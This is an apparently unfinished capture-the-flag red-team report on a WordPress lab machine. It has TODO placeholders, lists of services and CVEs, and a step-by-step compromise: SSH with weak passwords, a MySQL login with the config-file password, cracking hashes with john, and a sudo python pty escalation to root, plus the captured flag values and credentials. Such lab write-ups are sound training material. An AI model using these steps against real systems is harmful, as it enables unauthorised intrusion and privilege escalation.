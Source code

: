 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap #192.168.1.110
  # TODO: Insert scan output
```

This scan identifies the services below as potential points of entry:
- Target 1
  - 22/tcp SSH
  - 80/tcp http
_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - WordPress XML-RPC Username/Password Login Scanner
    - CVE-1999-0502
  - WordPress Pingback Locator
    - CVE-2013-0235
  - Cron WordPress Attacks
  

### Exploitation


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - Open Port 22 SSH with weak password
      - ssh michael@192.168.1.110 
        - password: michael
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Open Port 22 SSH with weak password
      - ssh michael@192.168.1.110 
        - password: michael
  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - WordPress Configuration, SQL Database
      - mysql -h localhost -u root -p wordpress
        - password: R@v3nSecurity
      - mysql> SELECT * FROM wp_posts;
  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Privilege escalation
      - mysql> use wp_users
        - create wp_hashes.txt with users and hashes
          - root@Kali:~# john wp_hashes.txt
      - ssh steven@192.168.1.110
        - password: pink84
          - find out what sudo privilege Steven has: sudo -l
          - escalate to root:
            - sudo python -c 'import pty;pty.spawn("/bin/bash")'
  